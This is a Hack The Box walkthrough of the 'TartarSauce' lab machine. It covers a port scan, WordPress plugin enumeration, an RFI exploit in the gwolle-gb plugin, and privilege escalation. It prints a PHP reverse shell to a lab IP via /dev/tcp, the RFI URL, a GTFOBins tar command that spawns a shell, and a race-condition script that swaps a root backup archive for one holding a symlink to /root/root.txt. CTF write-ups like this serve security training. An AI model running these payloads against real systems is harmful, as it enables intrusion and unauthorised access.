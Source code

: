 ```yaml
---

title: "TartarSauce"
date: 2023-08-10T11:30:03+00:00
tags: ["web","linux","wordpres",”bash scripting”]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/TartarSauce.png"
comments: false
description: "This is a friendly linux machine that is vulnerable because the /webservices/ directory contains different types of websites, among them a wordpres which contains a vulnerable plugin."

---
```


## Room Information

- Room name: TartarSauce
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/tartarsauce

![Untitled](/HTB/TartarSauce.png) 

## Tools Used

- Nmap
- searchsploit
- nc
- tar
- procmon
- script.sh

## Port Scanning

Other room, other port scan.

```bash
sudo nmap -p- --open -sCV -sS --min-rate 5000 -vvv -n -Pn -oN escaneo 10.10.10.88
```

![Untitled](/HTB/escaneo-tartarsauce.png)

As you can see in this machine we can find only one port open, the port 80(http).

## Enumeration

As I always do with all machines I set out to do the directory scan with **gobuster** and **wfuzz**.

But in this case, since I didn't find much relevant information, I decided to enter the file `/robots.txt`, which contained a list of 5 urls that were out of the indexers. At first I only found one url available, which was inside the `/webservices/` directory, and it ran the service called `/monstra-3.0.4/`, in which I wasted a lot of time until I realized that it was a rabbit hole. 

![Untitled](/HTB/robots-tartarsauce.png)

![Untitled](/HTB/webmonstra-tartarsauce.png)

![Untitled](/HTB/monstra-tartarsauce.png)

Then I did a **wfuzz** on the `/webservices/` directory, to see if I could find another service that was indexed. I quickly found a `/wp/` page, so I was looking at a **wordpres** website…

So as I always do with a **wordpres** website, I did a **wpscan**, but I didn't get anything interesting. No plugin or anything. After that I had the idea that maybe the **wpscan** program was not designed for a **wordpres** page to be hosted inside a directory of a normal page. So I set out to look for it by hand with **wfuzz** and a library that I downloaded from **github** that contained the names of all the plugins and I found several.

The word-list of plugins here → https://github.com/Perfectdotexe/WordPress-Plugins-List/blob/master/plugins.txt

![Untitled](/HTB/wfuzz-tartarsauce.png)

## Exploiting

After trying to find a vulnerability in the first 2 and not finding anything, I got to the third (**gwolle**) in which I found the famous RFI, with which I could easily get a reverse shell, plus the site ran php files.

![Untitled](/HTB/gwolles-tartarsauce.png)

![Untitled](/HTB/gwolle-tartarsauce.png)

According to the vulnerability the only thing I had to do was to put the modified url and that's it, I would have RFI, and that's how it was 😎

I created a file called **wp-load.php** which contained the following:

```php
<?php
        system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'");
?>
```

Then I listened on port 443, ran the following url and got the reverse shell: 

```bash
[http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.10/](http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/shell.php)
```

Well, it is also necessary to say that I opened a **webserver** in the folder where the payload was, to be able to download it from the victim machine…

![Untitled](/HTB/pwn-tartarsauce.png)

I was in now, as **ww-data** 😇

## Treatment of tty

```bash
 script /dev/null -c bash
 ctrl + z
 stty raw -echo; fg
 restet xterm
 export TERM=xterm

```

## Escalating Privileges

The first thing I did was to see if I had permissions to enter and see any flag, but it was not the case. I had to escalate privileges if I had to.

```bash
 sudo -l
 cat /etc/crontab
 find / -perm -4000 2>/dev/null
 find / -type f -writable 2>/dev/null
 bash procmon.sh
 lsb_release -a
 uname -a
 id
 getcap -r / 2>/dev/null
 netstat -na -p tcp
 ps faux
 (try to do a cat of /.bash_history)
```

As always I started with sudo -l, and I found that I can use the program called tar as user **Onuma**, so I escalate to **Onuma** so fast doing this:

website with the commands → https://gtfobins.github.io/gtfobins/tar/#sudo

![Untitled](/HTB/tar-tartarsauce.png)

It had to be slightly modified and it is as follows:

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Now I was user **Onuma** and I could see the first flag, but still necessary to upgrade to root…

![Untitled](/HTB/proc-tartarsauce.png)

When I launched the **porcmon.sh** program I saw that the user root was running a program called **/backuperer**, so I did a cat and set out to see what it was doing.

Basically what I was doing was to see if the web page was correct and then change it for the last backup that had been made a minute ago …

To do this what I did was to compress the directory **/var/www/html** save it for about a minute and compare it with the current one to see if nothing had changed, the compressed file was always given a random name and deleted at the end of the test.

If there was an error in that test, it was changed to the last copy and the error was written in a file. So what I did was to compress the directory which they were comparing, I took it to my machine and I modified it slightly, so that the html file was a direct link to the file /root/root.txt, so when comparing it, it would not be a direct link to the file /root/root.txt.

For doing the direct link:

```bash
ln -s -f /root/root.txt index.html
```

Also I created this script that allows to hijack the compressed file and change it by my modified file…

```bash
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n[!]Saliendo del programa...\n"
        exit 1
}

#funcion del Ctrl
trap ctrl_c INT

while true; do
        filename = "$(ls -la /var/tmp | grep -oP '\.\w{40}')"

        if ["$filename"]; then
                echo -e "\n[+] El archivo ha sido encontrado, con nombre $filename"
                rm -f /var/tmp/$filename
                cp comprimido.tar /var/tmp/$filename
                echo -e "\n[+] El archivo ha sido cambiado correctamente..."
                exit 0
        fi

done
```

![Untitled](/HTB/script-tartarsauce.png)

After that, only rests to did a `cat /var/backups/onuma_backup_error.txt`  and see the flag.

![Untitled](/HTB/root-tartarsauce.png)

The machine was finished 😎

## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about the wordpress, and monstra.
    
- Where there any novel tools or techniques employed?
    
    Doing a direct link.
